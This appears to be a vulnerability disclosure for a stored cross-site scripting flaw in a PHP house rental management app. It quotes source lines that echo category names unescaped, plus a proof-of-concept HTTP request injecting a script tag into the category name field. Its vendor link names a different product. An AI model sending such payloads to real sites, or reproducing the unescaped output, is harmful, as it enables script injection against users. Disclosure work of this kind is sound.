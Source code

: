 #### BUG_AUTHOR：tangling

# House Rental Management system - Storage XSS on (rental/manage_categories.php)

### Vendor Homepage:

https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

### Version:V1.0

#### Tested on: PHP, Apache, MySQL

Affected Page:http://localhost/index.php?page=categories

#### Source code(rental/manage_categories.php【39】）

```
27        <tbody>
28         <?php 
29         $i = 1;
30         $category = $conn->query("SELECT * FROM categories order by id asc");
31         while($row=$category->fetch_assoc()):
32         ?>
33         <tr>
34          <td class="text-center"><?php echo $i++ ?></td>
35          <td class="">
36           <p><?php echo $row['name'] ?></p>
37          </td>
38          <td class="text-center">
39           <button class="btn btn-sm btn-primary edit_category" type="button" data-id="<?php echo $row['id'] ?>"  data-name="<?php echo $row['name'] ?>" >Edit</button>
40           <button class="btn btn-sm btn-danger delete_category" type="button" data-id="<?php echo $row['id'] ?>">Delete</button>
41          </td>
42         </tr>
43         <?php endwhile; ?>
44        </tbody>
45       </table>
46      </div>
47     </div>
48    </div>
49    <!-- Table Panel -->
50   </div>
51  </div>
```



#### POC:

```
POST /ajax.php?action=save_category HTTP/1.1
Host: localhost
accept: */*
accept-language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
cache-control: no-cache
content-type: multipart/form-data; boundary=----WebKitFormBoundaryuRsUvl5QwYB9x9tV
pragma: no-cache
sec-ch-ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
x-requested-with: XMLHttpRequest
referer: http://localhost/index.php?page=categories
referrer-policy: strict-origin-when-cross-origin
Content-Length: 238

------WebKitFormBoundaryuRsUvl5QwYB9x9tV
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryuRsUvl5QwYB9x9tV
Content-Disposition: form-data; name="name"

<script>alert(1)</script>

------WebKitFormBoundaryuRsUvl5QwYB9x9tV--


```





